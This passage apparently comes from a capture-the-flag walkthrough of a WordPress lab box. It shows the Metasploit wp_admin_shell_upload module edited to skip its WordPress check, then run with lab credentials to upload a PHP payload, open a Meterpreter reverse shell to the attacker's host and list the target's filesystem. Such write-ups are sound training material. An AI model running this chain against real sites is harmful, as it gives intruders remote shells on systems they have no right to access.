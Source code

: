 Seeing the error
```ruby
[-] Exploit aborted due to failure: not-found: The target does not appear to be using WordPress
```
We can edit the source code of the exploit. So that it will not fail upon detecting WordPress.

```console
root@kali:~# gedit /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb
```
We will comment out the line which is creating error.

```ruby
def exploit
    #fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?
```

Now back to __metasploit__, and reload the modules and run the exploit again.
```console
msf exploit(unix/webapp/wp_admin_shell_upload) > reload
[*] Reloading module...
msf exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Authenticating with WordPress using elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/hHvqzHOUXl/CEMrloSQsY.php...
[*] Sending stage (37775 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.1:45320) at 2019-02-18 23:40:28 +0530
[!] This exploit may require manual cleanup of 'CEMrloSQsY.php' on the target
[!] This exploit may require manual cleanup of 'hHvqzHOUXl.php' on the target
[!] This exploit may require manual cleanup of '../hHvqzHOUXl' on the target

meterpreter > 
```

Great!! We got the shell running on the host. Let's enumerate
```console
meterpreter > pwd
/opt/bitnami/apps/wordpress/htdocs/wp-content/plugins/hHvqzHOUXl
meterpreter > cd /
meterpreter > dir
Listing: /
==========

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  bin
40755/rwxr-xr-x   4096     dir   2015-11-13 14:22:43 +0530  boot
40755/rwxr-xr-x   3820     dir   2019-02-19 01:11:45 +0530  dev
40755/rwxr-xr-x   4096     dir   2019-02-19 01:11:47 +0530  etc
40755/rwxr-xr-x   4096     dir   2015-11-13 11:55:35 +0530  home
100644/rw-r--r--  5582759  fil   2015-11-13 14:22:43 +0530  initrd.img
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  lib
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  lib64
40700/rwx------   16384    dir   2015-06-24 16:14:49 +0530  lost+found
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  media
40755/rwxr-xr-x   4096     dir   2015-11-13 14:22:20 +0530  mnt
40755/rwxr-xr-x   4096     dir   2015-09-16 16:19:06 +0530  opt
40555/r-xr-xr-x   0        dir   2019-02-18 19:41:41 +0530  proc
40700/rwx------   4096     dir   2015-11-14 05:20:07 +0530  root
40755/rwxr-xr-x   480      dir   2019-02-18 19:42:39 +0530  run
40755/rwxr-xr-x   4096     dir   2015-11-13 14:22:14 +0530  sbin
```